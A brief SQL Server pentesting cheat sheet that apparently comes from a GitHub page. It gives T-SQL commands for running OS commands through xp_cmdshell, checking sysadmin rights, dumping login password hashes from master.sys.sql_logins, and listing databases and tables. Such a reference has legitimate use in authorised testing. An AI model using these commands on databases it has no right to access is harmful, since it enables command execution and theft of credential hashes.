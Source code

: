 ## Exec xp_cmdshell
```
EXEC xp_cmdshell '<cmd>'
```

## Check show advanced options
```
sp_configure 'show advanced options'
```

## Check xp_cmdshell
```
sp_configure 'xp_cmdshell'
```

## Check sysadmin
```
SELECT IS_SRVROLEMEMBER('sysadmin');
```

## Current user
```
SELECT SYSTEM_USER;
```

## List password hash on database
```
SELECT name + '-' + master.sys.fn_varbintohexstr(password_hash) from master.sys.sql_logins
```

## show databases
```
SELECT name, database_id, create_date FROM sys.databases;
```

## show tables (master)
```
SELECT name FROM master..sysobjects WHERE xtype = 'U';
```

## show tables (INFORMATION_SCHEMA.TABLES)
```
SELECT * FROM INFORMATION_SCHEMA.TABLES
```

## show tables
```
SELECT name FROM <database>..sysobjects WHERE xtype = 'U';
```
